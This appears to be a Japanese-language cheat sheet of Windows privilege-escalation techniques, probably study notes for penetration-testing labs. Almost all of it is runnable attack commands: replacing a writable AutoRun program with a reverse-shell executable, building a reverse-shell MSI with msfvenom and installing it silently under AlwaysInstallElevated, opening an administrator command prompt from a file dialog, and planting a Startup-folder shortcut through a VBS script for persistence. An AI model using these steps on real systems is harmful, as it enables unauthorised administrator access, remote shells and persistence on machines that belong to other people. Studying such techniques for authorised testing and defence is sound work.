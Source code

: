 ### AutoRun

```sh
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

# 実行可能ファイルのうち1つでも変更可能なものがあるか
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"

copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```

### AlwaysInstallElevated

```shell
# 前提として、この2つのレジストリが設定されている必要がある
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

# インストーラ（リバースシェル）の作成
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f msi -o malicious.msi

# インストーラの実行
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

## 管理者として実行

管理者として実行されているプログラムで、ファイルオープンのダイアログを表示する。ナビゲーションバーで下記コピペして Enter を押すと、管理者のコマンドプロンプトを実行できる。

```
file://c:/windows/system32/cmd.exe
```

## Startup

```sh
# startupフォルダに書き込めるか
accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

ショートカットにリンクを作る vbs スクリプト

```vb
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save
```

## 権限

悪用可能な権限のリスト  
https://github.com/gtworek/Priv2Admin
